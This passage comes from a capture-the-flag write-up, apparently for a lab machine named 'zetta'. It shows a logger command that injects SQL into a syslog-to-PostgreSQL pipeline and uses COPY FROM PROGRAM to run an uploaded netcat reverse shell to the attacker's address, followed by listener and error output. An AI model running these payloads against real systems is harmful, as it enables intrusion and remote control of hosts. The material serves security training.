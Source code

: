     
    
    root@kali# ssh -i ~/id_rsa_generated postgres@10.10.10.156
    Linux zetta 4.19.0-5-amd64 #1 SMP Debian 4.19.37-5+deb10u1 (2019-07-19) x86_64
    Last login: Sun Sep  1 11:07:12 2019 from 10.10.14.5
    postgres@zetta:~$ 
    

#### Run a Reverse Shell

This is how jkr told me he planned for it to be solved in writing the box. I
can run code directly from `postgres`. So I’ll write a script that will give
me a shell. Since this box has limited options, the best path is to upload a
copy of `nc`. (I played with trying to get a `python` reverse shell to stay
connected more than 10 seconds, but couldn’t get it.) I’ll grab a [statically
compiled ncat](https://github.com/ZephrFish/static-tools/blob/master/ncat) and
upload it over `scp`:

    
    
    root@kali# scp -i ~/id_rsa_generated nc roy@10.10.10.156:/tmp/nc
    

Now I can inject code that will call it:

    
    
    roy@zetta:/var/log/postgresql$ logger -p local7.info "sd',null); CREATE TABLE IF NOT EXISTS exec(string text); COPY exec FROM PROGRAM \$$/tmp/nc -e /bin/sh 10.10.14.5 443\$$; -- "                                                                                     
    

No errors, and a callback:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.156.
    Ncat: Connection from 10.10.10.156:33972.
    id
    uid=106(postgres) gid=113(postgres) groups=113(postgres),112(ssl-cert)
    

Except after 10 seconds, the connection dies, and errors:

    
    
    2019-09-01 15:16:22.595 EDT [16482] postgres@syslog ERROR:  program "/tmp/nc -e /bin/sh 10.10.14.5 443" failed
    2019-09-01 15:16:22.595 EDT [16482] postgres@syslog DETAIL:  child process exited with exit code 1
    2019-09-01 15:16:22.595 EDT [16482] postgres@syslog STATEMENT:  INSERT INTO syslog_lines (message, devicereportedtime) values (' sd\',null); CREATE TABLE IF NOT EXISTS exec(string text); COPY exec FROM PROGRAM $$/tmp/nc -e /bin/sh 10.10.14.5 443$$; -- ','2019-09-0
    1 19:16:12')
    

This is likely the result of a timeout in the database. I’ll run it again,
with `nc` in the background:

    
    